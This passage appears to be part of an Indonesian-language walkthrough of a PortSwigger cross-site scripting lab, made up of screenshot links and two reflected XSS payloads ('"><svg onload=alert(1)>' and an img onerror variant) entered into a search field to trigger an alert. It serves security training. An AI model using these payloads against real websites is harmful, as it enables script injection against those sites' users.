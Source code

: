 - Akan ditemukan function javascript sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/APPRENTICE/assets/xss%2012.JPG)

- Masukkan payload berikut ini pada filed pencarian, untuk memunculkan popup alert
```sh
"><svg onload=alert(1)>
```

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/APPRENTICE/assets/xss%2013.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/APPRENTICE/assets/xss%2014.JPG)

- Selain payload diatas anda juga bisa menggunakan payload sebagai berikut
```sh
"><img src/onerror=alert(1)>
```
